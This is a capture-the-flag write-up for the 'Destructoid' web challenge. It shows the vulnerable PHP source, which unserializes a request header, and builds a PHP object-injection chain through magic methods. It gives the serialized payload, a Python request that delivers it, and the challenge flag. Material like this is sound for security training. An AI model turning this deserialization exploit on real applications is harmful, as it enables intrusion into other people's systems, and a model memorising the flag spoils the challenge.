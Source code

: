 # Destructoid

## Task

[Destructoid](https://destructoid.chal.imaginaryctf.org)

## Solution

We are greeted by a string `ecruos? ym dnif uoy naC`.
If we reverse it (Or read backwards) we might be able
to guess that it wants us to add the get parameter
of `?source` and in fact that gets us the source:

```php
$printflag = false;

class X {
    function __construct($cleanup) {
        if ($cleanup === "flag") {
            die("NO!\n");
        }
        $this->cleanup = $cleanup;
    }

    function __toString() {
        return $this->cleanup;
    }

    function __destruct() {
        global $printflag;
        if ($this->cleanup !== "flag" && $this->cleanup !== "noflag") {
            die("No!\n");
        }
        include $this->cleanup . ".php";
        if ($printflag) {
            echo $FLAG . "\n";
        }
    }
}

class Y {
    function __wakeup() {
        echo $this->secret . "\n";
    }

    function __toString() {
        global $printflag;
        $printflag = true;
        return (new X($this->secret))->cleanup;
    }
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}
echo "ecruos? ym dnif uoy naC\n";
if (isset($_SERVER['HTTP_X_PAYLOAD'])) {
    unserialize(base64_decode($_SERVER['HTTP_X_PAYLOAD']));
}
```

We see some unserialization on the X-Payload header in the request,
so we need to first call `Y.__tostring` such that printflag is set,
but we also need to create an X object without going through the
`__construct` method, because else the rendering would stop and
we wouldn't get our flag.

So I copied the source onto my php server and played around a bit
by serializing an array of X and Y objects.

Finally I got this:

```php
$y = new Y("flag");
$x = New X("flag");

echo serialize([$y, new Y($y), $x]);
```

The idea is to create a y object, then pass it to the Y wakup function
(Which is called after unserializing) which converts the y object to a
string (Because of the string concatenation). Then we create an X object
with the secret "flag" to get the contents of the flag.php file.

`a:3:{i:0;O:1:"Y":1:{s:6:"secret";s:4:"flag";}i:1;O:1:"Y":1:{s:6:"secret";r:2;}i:2;O:1:"X":1:{s:7:"cleanup";s:4:"flag";}}`

We can then use that in python to get the flag:

`get("https://destructoid.chal.imaginaryctf.org/",headers={"X-Payload":b64encode(b'a:3:{i:0;O:1:"Y":1:{s:6:"secret";s:4:"flag";}i:1;O:1:"Y":1:{s:6:"secret";r:2;}i:2;O:1:"X":1:{s:7:"cleanup";s:4:"flag";}}')}).text`

which prints the flag:


`ictf{d3s3r14l1z4t10n_4nd_d3struct10n}`
